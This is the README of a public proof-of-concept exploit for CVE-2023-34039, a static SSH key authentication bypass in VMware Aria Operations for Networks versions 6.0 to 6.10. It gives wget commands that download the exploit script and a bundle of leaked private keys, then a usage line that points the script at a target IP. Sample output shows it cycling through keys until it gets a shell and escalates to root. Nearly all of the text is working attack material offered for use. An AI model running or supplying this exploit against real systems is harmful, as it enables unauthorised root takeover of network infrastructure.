 # CVE-2023-34039

![](https://img.shields.io/static/v1?label=Product&message=VMWare%20Aria%20Operations%20for%20Networks&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=from%20version%206.0%20to%206.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20SSH%20Auth%20Bypass&color=red)



For the full writeup, click [here](https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-34039/)

### Install

```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/VMWare_Aria_Operations_4_Networks_CVE-2023-34039/CVE-2023-34039-main/CVE-2023-34039.py https://github.com/getdrive/PoC/raw/main/2023/VMWare_Aria_Operations_4_Networks_CVE-2023-34039/CVE-2023-34039-main/keys.zip ; unzip keys.zip
```
### Usage
```
python CVE-2023-34039.py --target Target_IP

(!) VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE (CVE-2023-34039)

(*) Exploit by Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_collector

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_platform

(*) Trying key: keys/vrni-6.10.0/id_rsa_vnera_keypair_6.10.0_platform


********************************** ATTENTION **********************************
 NTP Service is not healthy.
 IMPACT: It may affect the proper working of other services.
 ACTION: Restore the service using 'ntp' CLI command.
********************************** ATTENTION **********************************
support@vrni-platform-release:~$ sudo -i
root@vrni-platform-release:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vrni-platform-release:~# hostname
vrni-platform-release
root@vrni-platform-release:~#

```

